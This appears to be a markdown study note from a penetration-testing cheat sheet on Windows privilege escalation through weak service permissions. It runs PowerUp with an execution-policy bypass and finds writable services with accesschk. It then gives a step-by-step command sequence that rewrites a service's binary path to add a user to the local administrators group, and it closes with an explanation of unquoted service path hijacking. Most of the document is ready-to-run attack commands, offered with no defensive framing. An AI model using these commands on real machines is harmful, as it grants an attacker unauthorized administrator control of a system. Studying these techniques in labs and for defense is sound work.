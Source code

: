 

# Escalation Path: Service Permissions


## Escalation via Binary Paths

### Find with PowerUp
```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

### Find manually
```bash
accesschk64.exe -uwcv Everyone *

# -u = dont show errors
# -w = only show the objects that have write access
# -c = display the service name
# -v = verbose
```

Then run against the service itself:
```bash
accesschk64.exe -uwcv daclsvc
sc qc daclsvc

# if we have write access to the SERVICE_CHANGE_CONFIG
sc config daclsvc binpath= "net localgroup administrators user /add"

sc stop daclsvc
sc start daclsvc

net localgroup administrator 
# The user should be there with admin access
```


## Unquoted Service Paths
if you have a service executable which path is not closed with quotation marks and contains a space

then you can get malicious, cause when the service is unquoted, Windows search For the .exe in every space of the ImagePath.

Example:

C:\Program**x**Files\Unquoted**x**Path**x**Service\Common**x**Files\etc

in every **x** we can put a .exe file and the Windows will run.

- We just gotta find one directory that we have write access.
